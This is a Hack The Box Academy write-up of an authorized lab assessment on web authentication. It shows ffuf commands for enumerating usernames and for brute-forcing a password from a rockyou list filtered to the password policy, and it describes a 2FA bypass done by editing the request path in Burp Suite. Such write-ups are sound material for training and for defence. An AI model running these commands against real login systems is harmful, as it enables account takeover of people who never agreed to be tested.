


# HTB Academy — Skills Assessment: Authentication

**Platform:** Hack The Box Academy  
**Category:** Web Security / Authentication  
**Difficulty:** Skills Assessment  
**Target:** `154.57.164.78:37839`

## Objective

Identify and exploit authentication vulnerabilities by combining techniques covered in the Authentication module to retrieve the flag.

---

## Step 1: Go to the Login Page

First, we navigate to the login page.

We use FFUF to enumerate valid usernames.

### Username Enumeration

```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt \
-u http://154.57.164.78:37839/login.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=FUZZ&password=invalid" \
-fr "Unknown user"
```

**Result:**

We found a valid username:

```text
gladys
```

---

## Step 2: Test the Login Responses

Now, we go back to the login page and test two different scenarios.

**Test 1:** Enter a username that does not exist.

The application returns an error message indicating that the user is unknown.

**Test 2:** Enter an existing username with an incorrect password.

The application returns a different error message.

This confirms that the application is vulnerable to **Username Enumeration**.

---

## Step 3: Create a New Account

Now, we create a new account to test the registration functionality.

**Test Account:**

```text
Username: test
Password: [REDACTED]
```

Now what? Say with me: What! 😂

Let's continue!

---

## Step 4: Password Testing

Now, we move to testing the password of the identified user: `gladys`.

First, we prepare a wordlist based on the password policy.

```bash
grep -E '^[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt \
  | grep -E '[0-9]' \
  | grep -E '[a-z]' \
  | grep -E '[A-Z]' \
  > rockyou-12-policy.txt
```

This command filters passwords based on the following requirements:

- Exactly 12 characters.
- At least one uppercase letter.
- At least one lowercase letter.
- At least one number.

Next, we use FFUF to test authentication in the authorized lab.

```bash
ffuf -w ./rockyou-12-policy.txt \
-u http://154.57.164.79:40517/login.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=gladys&password=FUZZ" \
-t 200 \
-fr "Invalid credentials." \
-s
```

**Result:**

We identified valid credentials for the lab account.

```text
Username: gladys
Password: [REDACTED]
```

---

## Step 5: Try to Bypass 2FA

Now, we try to bypass 2FA.

First, open Burp Suite and enable **Proxy Intercept**.

### Analyze the Authentication Request

We intercept the authentication request sent to:

```text
/2fa.php
```

Then, we inspect the request and change the requested path to:

```text
/profile.php
```

We analyze the server response and discover that the application allows access to the profile page without properly enforcing the second authentication factor.

This reveals a **2FA enforcement vulnerability**.

### FFUF Testing Evidence




### 2FA Bypass Evidence




---

## Step 6: Get the Flag

After identifying the 2FA bypass, we successfully access the protected profile page.

And finally, we get the flag!

---

## What I Learned

- Username Enumeration.
- Authentication Response Analysis.
- Password Policy Analysis.
- Using FFUF for Web Application Testing.
- Analyzing HTTP Requests with Burp Suite.
- Understanding 2FA Bypass Vulnerabilities.
- Identifying Missing Server-Side Authorization Checks.

**Lab Completed! 🚀**

---

**Disclaimer:** This write-up documents testing performed in an authorized HTB Academy lab environment. Sensitive credentials and session cookies have been redacted.
